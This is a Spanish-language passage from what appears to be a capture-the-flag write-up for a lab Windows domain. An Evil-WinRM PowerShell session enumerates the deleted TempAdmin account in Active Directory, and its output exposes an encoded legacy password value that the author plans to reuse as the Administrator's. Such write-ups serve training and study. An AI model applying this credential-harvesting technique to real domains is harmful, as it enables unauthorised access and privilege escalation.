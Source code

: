Procedemos a buscar por el Name `Temp Admin` que como nos decian habia tenido temporamente una password = a la del Administrador

Procedemos a intentar listar todo el Contenido anterior y sus Propiedades con el siguiente Comando en PowerShell

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
"cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz"
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

